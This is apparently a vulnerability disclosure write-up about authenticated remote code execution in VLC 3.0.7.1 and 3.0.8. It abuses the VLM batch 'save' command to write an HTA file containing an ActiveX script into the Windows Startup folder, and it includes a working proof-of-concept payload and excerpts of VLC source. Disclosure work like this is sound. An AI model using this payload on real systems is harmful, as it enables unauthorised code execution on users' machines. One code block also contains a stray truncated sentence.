



# VLC HTTP VLM Remote Code Execution

## Description

VLC has a web server component that allows users to remotely manage and play media files. A feature that exists in the web interface is the VLM batch command. An authenticated user can abuse this feature and write a file to an arbitrary location on the system, and gain remote code execution.

## Versions Tested

* [3.0.7.1](https://download.videolan.org/pub/videolan/vlc/3.0.7.1/) Vetinari (Windows 10)
* 3.0.8 (Windows 10). Latest download as of Oct 16 2019.

## Setup

To test this, I set up a Windows machine (the bug would not be limited to just Windows). And then I downloaded VLC from the official website. Once installed, go to the VLC folder. On Windows, this would be:

```
C:\Program Files (x86)\VideoLan\VLC\
```

And then start VLC's HTTP server this way. By default, the web server binds to `0.0.0.0:8080`:

```
vlc.exe --extraintf http --intf wx --http-password pass
```

Note: VLC relies on BASIC authentication, and the `--http-password` option is the password you want to set. Although it is BASIC authentication, the username is not required at all, which makes the attack easier.

## Reproducing the Vulnerability

After starting the web server, you may use a browser to access it. You will be asked to do the BASIC authentication but as I previously said, you only need to enter the password field, leave the username empty, and then you should be able to see the following interface:



Notice there are several small buttons on the left. If you hover over the top ones, it should expand to these options:



Go ahead and click on **VLM Batch Commands**. And then you should see an input box that looks like this:



In the input box, enter the following. This will save a HTA file named **poc.hta** in the startup folder, and it should spawn a calculator:

```
new "<script>new ActiveXObject('WScript.Shell').run('calc.exe')</script>" vod
save "C:\Users\sinn3r\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\poc.hta"
```

Note: For the startup folder's username, I'm using "sinn3r" for the demonstration. Please change this accordingly.

The whole process to create the malicious file remotely can be automated with a script. Although my walkthrough uses HTA in the startup folder as an example, it is possible there may be a better way to completely get remote code execution without relying on startup.

## More Technical Analysis

In vimshell.c, there are these commands supported by VLC:

```c
else IF_EXECUTE( "del", (i_command != 2), ExecuteDel(p_vlm,
ppsz_command[1], &p_message) )
else IF_EXECUTE( "show", (i_command > 2), ExecuteShow(p_vlm,
i_command > 1 ? ppsz_command[1] : NULL, &p_message) )
else IF_EXECUTE( "help", (i_command != 1), ExecuteHelp( &p_message )
)
else IF_EXECUTE( "control", (i_command < 3), ExecuteControl(p_vlm,
ppsz_command[1], i_command - 2, &ppsz_command[2], &p_message) )
else IF_EXECUTE( "save", (i_command != 2), ExecuteSave(p_vlm,
ppsz_command[1], &p_message) )
else IF_EXECUTE( "export", (i_command != 1), ExecuteExport(p_vlm,
&p_message) )
else IF_EXECUTE( "load", (i_command != 2), ExecuteLoad(p_vlm,
ppsz_command[1], &p_message) )
else IF_EXECUTE( "new", (i_command < 3), ExecuteNew(p_vlm,
ppsz_command[1], ppsz_command[2], i_command-3, &ppsz_command[3], &p_message) )
else IF_EXECUTE( "setup", (i_command < 2), ExecuteSetup(p_vlm,
ppsz_command[1], i_command-2, &ppsz_command[2], &p_message) )
else
{
p_message = vlm_MessageNew( ppsz_command[0], "Unknown VLM command" );
goto error;
}
The vulnerability I'm reporti
```

The vulnerability I'm reporting is specifically for the **ExecuteSave** command. The first thing in this function is a vlc_fopen , which is really a wrapper for fopen:

```c
// Line 101 from filesystem.c
int fd = _wopen (wpath, flags, mode);
```

This indicates that as an user, I could write to an arbitrary location as long as the permission allows.

Going further down in the ExecuteSave function, the function **Save** is used to create the content of the file:

```c
// Line 505 from vimshell.c
psz_save = Save( p_vlm );
if( psz_save == NULL )
goto error;
if( fputs( psz_save, f ) == EOF )
goto error;;
if( fclose( f ) )
{
f = NULL;
goto error;
}
```

The Save function basically saves the current configuration, one of those is elements you could create using the `new` VLM command.